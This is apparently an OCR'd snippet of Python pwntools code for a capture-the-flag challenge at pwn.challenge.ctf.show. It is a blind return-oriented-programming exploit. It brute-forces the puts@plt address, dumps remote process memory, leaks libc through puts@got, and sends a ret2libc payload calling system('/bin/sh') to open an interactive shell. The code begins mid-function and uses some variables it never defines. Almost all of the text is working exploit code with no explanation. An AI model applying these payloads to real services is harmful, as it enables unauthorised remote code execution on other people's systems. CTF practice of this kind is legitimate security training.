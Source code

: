 ```python
        payload += p64(addr)
        payload += p64(stop_addr)
        try:
            io = remote('pwn.challenge.ctf.show',28235)
            io.recvline()
            io.sendline(payload)
            if io.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                io.close()
                return addr
            log.info("bad: 0x%x" % addr)
            io.close()
        except EOFError as e:
            io.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1          

def Dump_Memory(buf_length, stop_addr,gadgets_addr, puts_plt, start_addr,end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret
    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_length
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            io = remote('pwn.challenge.ctf.show',28235)
            io.recvline()
            io.sendline(payload)
            data = io.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            io.close()
        except:
            log.info("Can't connect")
    return result
                          
io.recvuntil('Do you know who is daniu?\n')
payload  = 'a' * buf_length
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt)
payload += p64(stop_gadgets)
io.sendline(payload)
puts = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print hex(puts)
libc = LibcSearcher('puts',puts)
libc_base = puts - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload  = 'a' * buf_length + p64(pop_rdi_ret) + p64(bin_sh) + p64(system)
io.sendline(payload)
io.interactive()
                          
```
